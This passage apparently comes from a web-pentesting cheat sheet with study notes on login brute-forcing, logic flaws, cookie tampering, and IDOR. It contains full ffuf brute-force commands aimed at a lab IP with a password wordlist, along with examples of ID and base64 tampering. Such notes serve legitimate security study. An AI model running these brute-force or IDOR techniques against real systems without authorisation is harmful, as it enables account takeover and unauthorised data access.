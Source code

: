 Brute force login page

```bash
# Example
$ ffuf -w <wordlist_W1>:W1,<wordlist_W2>:W2 -X POST -d <data> -H <Header> -u <url> -fc <status_code>
$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.113.42/customers/login -fc 200
```

### Logic flaw

Inspect authentication mecanisms and try to bypass logic flaw

### Cookie Tampering

Cookies format can be plaintext, hashed or encoded.

<br>

---

## IDOR (Insecure Direct Object Reference)

Get objects with input data insecure

### Where are they located ?

URL / AJAX / JS

```bash
# Examples
http://mywebsite.com/order/1000/status -> http://mywebsite.com/order/1/status
http://mywebsite.com/index.php?id=30 -> http://mywebsite.com/index.php?id=1
```

### Encoded value

```bash
# Base64 example
e2lkPTF9 -> {id=1} -> {id=2} -> e2lkPTJ9
```

### Hashed value 

```
# MD5 example
202cb962ac59075b964b07152d234b70 -> 123
```

### Predictable / Unpredictable values

Predictable -> The methode is as follow : create two accounts and check the ID for determine pattern

